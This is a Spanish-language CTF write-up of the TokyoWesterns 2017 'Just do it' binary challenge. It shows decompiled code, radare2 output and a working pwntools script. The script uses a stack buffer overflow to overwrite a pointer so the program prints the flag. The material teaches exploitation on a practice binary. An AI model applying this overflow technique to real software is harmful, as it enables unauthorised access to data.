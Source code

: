 ```yaml
---
layout: post
title: Just do it - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Just do it** \\
TokyoWesterns 2017 ctf


## Análisis

**pwn checksec**:
```
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

"PIE: No PIE (0x8048000)" indica que el ejecutable no es un ejecutable independiente de posición y se cargará en la dirección base fija "0x8048000". Esto es importante para el análisis de seguridad ya que se mantendrán las direcciones entre ejecuciones.

## Ghidra

```c
undefined4 main(void)

{
  char *input_ptr;
  int cmp_pass;
  char usrInput [16];
  FILE *file_ptr;
  char *result_message;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  result_message = failed_message;
  file_ptr = fopen("flag.txt","r");
  if (file_ptr == (FILE *)0x0) {
    perror("file open error.\n");
    exit(0);
  }
  input_ptr = fgets(flag,0x30,file_ptr);
  if (input_ptr == (char *)0x0) {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  input_ptr = fgets(usrInput,0x20,stdin);
  if (input_ptr == (char *)0x0) {
    perror("input error.\n");
    exit(0);
  }
  cmp_pass = strcmp(usrInput,PASSWORD);
  if (cmp_pass == 0) {
    result_message = success_message;
  }
  puts(result_message);
  return 0;
}
```
El codigo realiza lo siguiente:
1. Abre un archivo llamado "flag.txt" en modo de lectura.
2. Lee una cadena de texto desde el archivo "flag.txt" y la almacena en la variable flag.
3. Pide al usuario que ingrese una contraseña a través de la entrada estándar.
4. Compara la contraseña ingresada por el usuario (usrInput) con una contraseña almacenada en la variable PASSWORD.
5. Dependiendo de si la contraseña ingresada coincide con la contraseña almacenada en PASSWORD, se establece el mensaje de resultado en success_message o failed_message.
6. Imprime el mensaje de resultado en la salida estándar.
7. El programa retorna 0 al finalizar, lo que indica que se ejecutó sin errores.

Son los puntos 3 y 6 los que nos permitiran resolver el desafío ya que mediante un bufferoverflow se puede sobreescribir el puntero "result_message" para que apunte a la cadena "flag" y lo imprima al final del programa.

## Exploit

Lo primero que necesito es saber la posición de memoria en la que se almacenará la bandera al leerla del archivo "flag.txt".
```
[0x080485bb]> is
[...]
74  0x000005bb 0x080485bb GLOBAL FUNC   337      main
76  ---------- 0x0804a040 GLOBAL OBJ    0        __TMC_END__
78  ---------- 0x0804a080 GLOBAL OBJ    48       flag
79  0x00001034 0x0804a034 GLOBAL OBJ    4        success_message
80  0x000003f8 0x080483f8 GLOBAL FUNC   0        _init
81  0x0000103c 0x0804a03c GLOBAL OBJ    4        PASSWORD
[...]
```

Se guardará en la dirección **0x0804a080**.

A continuación, utilizo **radare2** para calcular la distancia entre la entrada del usuario y "result_message".

```
┌ 337: int main (char **argv);
│           ; var int32_t usrInput @ ebp-0x20
│           ; var int32_t file_ptr @ ebp-0x10
│           ; var int32_t result_message @ ebp-0xc
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg char **argv @ esp+0x54
│           0x080485bb      8d4c2404       lea ecx, [argv]
│           0x080485bf      83e4f0         and esp, 0xfffffff0
│           0x080485c2      ff71fc         push dword [ecx - 4]
│           0x080485c5      55             push ebp
│           0x080485c6      89e5           mov ebp, esp
│           0x080485c8      51             push ecx
│           0x080485c9      83ec24         sub esp, 0x24
│           0x080485cc      a160a00408     mov eax, dword [obj.stdin]
```

Calculo la diferencia

```
    0x20
  -  0xc
----------
    0x14
```

### Script

Conociendo la dirección de memoria a sobreescribir y el padding, hacer el script es muy sencillo.

```py
from pwn import *

# Iniciar el proceso
target = process('just_do_it')

# Crear payload
payload = b"A" * 0x14 # Padding
payload += p32(0x0804a080) # obj.flag dirección

# Enviar el payload
target.sendline(payload)

target.interactive()
```

```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.

